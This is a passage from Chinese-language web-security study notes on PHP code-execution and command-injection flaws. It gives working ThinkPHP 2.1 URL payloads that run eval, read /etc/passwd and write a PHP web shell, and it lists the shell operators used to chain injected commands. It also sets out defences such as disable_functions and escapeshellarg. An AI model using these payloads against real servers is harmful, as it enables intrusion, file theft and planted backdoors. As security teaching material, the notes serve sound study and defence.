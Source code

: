 ### 漏洞利用

一般找CMS相应版本漏洞，如**ThinkPHP2.1**

* 一句话木马
  `http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}`
* 得到当前路径
  `http://www.xxx.com/News/detail/id/{${print(getcwd()))}}`
* 读文件
  `http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}`
  POST的数据为：`f=/etc/passwd`
* 写shell
  `http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}`
  POST的数据为：`f=1.php&d=<?php @eval($_POST['aa'])?>`


### 防御

- 少用或禁用命令执行函数

  尽量**少用**执行命令的函数或者直接**禁用**。能使用脚本解决的工作，不要调用其他程序处理。尽量少用执行命令的函数，并在disable_functions中禁用

- 确保动态执行的函数为指定的函数

  在使用动态函数之前，确保使用的函数是**指定的函数**之一

- 参数用引号括起，且进行过滤或固定

  在进入执行命令的函数/方法之前，**对参数进行过滤，对敏感字符进行转义**。参数的值尽量使用引号包裹，并在拼接前调用addslashes进行转义。

  对于可控点是程序参数的情况下，使用escapeshellcmd函数进行过滤，对于可控点是程序参数值的情况下，使用escapeshellarg函数进行过滤

而针对由特定第三方组件引发的漏洞，我们要做的就是及时打补丁，修改安装时的默认配置。

对于eval( )函数一定要保证用户不能轻易接触eval的参数或者用正则严格判断输入的数据格式。

对于preg_replace放弃使用e修饰符。如果必须要用e修饰符，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹 。



## 命令执行漏洞

### 原理

用户通过浏览器提交操作系统执行命令，由于服务器端 **没有针对执行函数做过滤**，导致在没有指定绝对路径的情况下就执行命令，可能会允许使用者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。

在操作系统中，`&`、`|`、`||`都可以作为命令连接符使用，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令。（`||`只要满足第一个条件，后面的条件就不再判断，而`|`要对所有的条件进行判断）

**Windows系统命令拼接：**

```
“|”：管道符，前面命令标准输出作为后面命令的标准输入。
“&” commandA & commandB 先运行命令A，然后运行命令B
“||” commandA || commandB 运行命令A，如果失败则运行命令B
“&&” commandA && commandB 运行命令A，如果成功则运行命令B
```
